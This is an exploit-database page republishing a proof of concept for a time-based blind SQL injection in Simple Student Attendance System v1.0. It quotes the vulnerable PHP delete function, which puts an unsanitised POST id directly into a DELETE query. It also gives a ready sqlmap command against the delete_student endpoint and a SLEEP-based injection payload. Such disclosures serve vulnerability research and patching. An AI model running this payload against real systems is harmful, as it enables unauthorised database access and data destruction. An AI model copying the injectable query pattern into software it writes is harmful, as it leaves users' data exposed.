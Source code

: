 ```yaml
---
title: Simple Student Attendance System v1.0 - Time Based Blind SQL Injection exploit
url: https://sploitus.com/exploit?id=EDB-ID:51841&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-04
fetch_date: 2025-10-04T12:07:59.340350
---
```


# Simple Student Attendance System v1.0 - Time Based Blind SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Simple Student Attendance System v1.0 - Time Based Blind SQL Injection

2024-03-03 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51841
# Exploit Title: Simple Student Attendance System - Time Based Blind SQL Injection
# Date: 26 December 2023
# Exploit Author: Gnanaraj Mauviel (@0xm3m)
# Vendor: oretnom23
# Vendor Homepage: https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-attendance.zip
# Version: v1.0
# Tested on: Mac OSX, XAMPP, Apache, MySQL

-------------------------------------------------------------------------------------------------------------------------------------------

Source Code(/php-attendance/classes/actions.class.php):

public function delete_student(){
extract($_POST);
$delete = $this->conn->query("DELETE FROM `students_tbl` where `id` = '{$id}'");
if($delete){
$_SESSION['flashdata'] = [ 'type' => 'success', 'msg' => "Student has been deleted successfully!" ];
return [ "status" => "success" ];
}else{
$_SESSION['flashdata'] = [ 'type' => 'danger', 'msg' => "Student has failed to deleted due to unknown reason!" ];
return [ "status" => "error", "Student has failed to deleted!" ];
}
}

-> sqlmap -u "http://localhost/php-attendance/ajax-api.php?action=delete_student" --data="id=7" --technique=T --batch
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=7' AND (SELECT 3738 FROM (SELECT(SLEEP(5)))kVAW) AND 'vAFW'='vAFW
---
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)